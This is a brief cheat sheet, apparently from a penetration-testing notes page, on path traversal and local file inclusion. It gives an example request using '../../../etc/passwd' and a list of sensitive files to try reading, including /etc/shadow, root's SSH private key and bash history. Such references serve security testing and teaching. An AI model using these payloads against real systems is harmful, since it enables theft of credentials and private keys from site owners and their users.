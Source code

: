 # Usual web app location: /var/www/html

### Access sensitive files example:

#### http://site.com/get.php?file=../../../etc/passwd

### Files to test:

#### /etc/issue

#### /etc/profile

#### /proc/version

#### /etc/passwd

#### /etc/shadow

#### /root/.bash_history

#### /root/.ssh/id_rsa

#### /var/log/dmessage

#### /var/log/apache2/access.log

#### /var/mail/root

#### C:\boot.ini
